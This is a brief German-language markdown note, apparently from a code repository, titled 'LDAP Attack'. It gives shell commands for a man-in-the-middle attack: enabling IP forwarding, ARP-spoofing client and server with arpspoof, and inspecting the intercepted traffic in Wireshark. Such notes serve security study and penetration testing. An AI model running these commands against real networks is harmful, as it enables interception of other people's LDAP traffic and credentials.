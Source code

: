 # LDAP Attack

## 1. Man-in-the-Middle 

1. Packet Weiterleitung aktivieren
```bash
sysctl -w net.ipv4.ip_forward=1
```

2. Packete abfangen mithilfe *arpspoof*
```bash
arpspoof -i [Netzwerk Interface] -t [Client IP] [Server IP]
arpspoof -i [Netzwerk Interface] -t [Server IP] [Client IP]
```
> Dadurch werden alle Packete zwischen Server und Client abgefangen

3. Mit Wireshark die Kommunikation analysieren
